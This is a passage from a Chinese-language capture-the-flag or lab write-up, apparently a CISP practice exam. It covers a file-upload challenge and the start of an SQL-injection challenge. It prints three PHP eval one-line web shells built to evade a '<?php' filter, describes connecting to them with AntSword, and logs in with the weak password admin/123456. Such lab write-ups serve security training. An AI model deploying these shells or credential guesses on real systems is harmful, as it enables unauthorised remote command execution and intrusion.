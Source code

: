 测试发现对 `<?php` 进行了过滤，可写成以下形式

```php
<?eval($_POST['cmd']);echo 123;?>
<?=eval($_REQUEST['cmd']);echo 123;?>
<script language="php">eval($_REQUEST['cmd']);</script>
```

上传成功

![image.png](https://img.ghostliner.top/b5fzbi.png)

![image.png](https://img.ghostliner.top/mTh1C2.png)

蚁剑连接获取 key

![image.png](https://img.ghostliner.top/Ri8xjv.png)

## 3. web2：SQL 注入

**端口**：32769

![image.png](https://img.ghostliner.top/yrE2G9.png)

**测试弱密码**

用户名：admin，密码：123456，登录成功

![image.png](https://img.ghostliner.top/t7hmX6.png)

访问 key.cisp 显示 404

![image.png](https://img.ghostliner.top/9ZJzRx.png)

访问 `key.php` 显示空白，说明存在 key.php 文件

![image.png](https://img.ghostliner.top/Y9yCKq.png)

### 3.1. bp 目录扫描

设置 payload

![image.png](https://img.ghostliner.top/X4gQAs.png)

![image.png](https://img.ghostliner.top/ysjHfd.png)

![image.png](https://img.ghostliner.top/9soGyu.png)

![image.png](https://img.ghostliner.top/rjm0wM.png)

![image.png](https://img.ghostliner.top/MINsSl.png)

使用 bp 目录扫描未发现其他路径

